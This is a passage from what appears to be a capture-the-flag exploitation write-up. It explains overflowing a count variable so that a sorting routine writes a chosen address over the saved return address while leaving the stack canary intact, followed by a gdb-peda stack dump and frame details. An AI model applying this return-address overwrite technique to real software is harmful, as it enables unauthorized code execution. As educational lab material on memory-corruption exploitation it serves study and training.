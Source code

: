 Essentially what we will do is, we will write a greater value to `heapQt` than `64`, that way it will start sorting data past `ptrArray`. Specifically, we will get it to place an address that we want where the return address is stored at `ebp+0x4`, which will give us code execution. We will also need to make sure the sorting algorithm leaves the stack canary in the same place, otherwise the binary will crash before we get code execution.

```
gdb-peda$ x/152x 0xff8969b8
0xff8969b8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff8969c8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff8969d8: 0x00000000  0xff820d84  0x00000000  0xc0370000
0xff8969e8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff8969f8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a08: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a18: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a28: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a38: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a48: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a58: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a68: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a78: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a88: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a98: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896aa8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896ab8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896ac8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896ad8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896ae8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896af8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b08: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b18: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b28: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b38: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b48: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b58: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b68: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b78: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b88: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b98: 0x00000000  0xff820d84  0x00000000  0x00000000
0xff896ba8: 0x00000000  0x00000000  0x00000000  0x0804900a
0xff896bb8: 0xff896bd8  0x1d781100  0x0804c000  0xf7f41000
0xff896bc8: 0xff896bd8  0x08049841  0xff896bf0  0x00000000
0xff896bd8: 0x00000000  0xf7d81e81  0xf7f41000  0xf7f41000
0xff896be8: 0x00000000  0xf7d81e81  0x00000001  0xff896c84
0xff896bf8: 0xff896c8c  0xff896c14  0x00000001  0x00000000
0xff896c08: 0xf7f41000  0xf7f7975a  0xf7f91000  0x00000000
gdb-peda$ i f
Stack level 0, frame at 0xff896bd0:
 eip = 0x8049733 in game; saved eip = 0x8049841
 called by frame at 0xff896bf0
 Arglist at 0xff896bc8, args: 
 Locals at 0xff896bc8, Previous frame's sp is 0xff896bd0
 Saved registers:
  ebx at 0xff896bc0, ebp at 0xff896bc8, esi at 0xff896bc4, eip at 0xff896bcc
gdb-peda$ x/x $ebp-0xc
0xff896bbc: 0x1d781100
```

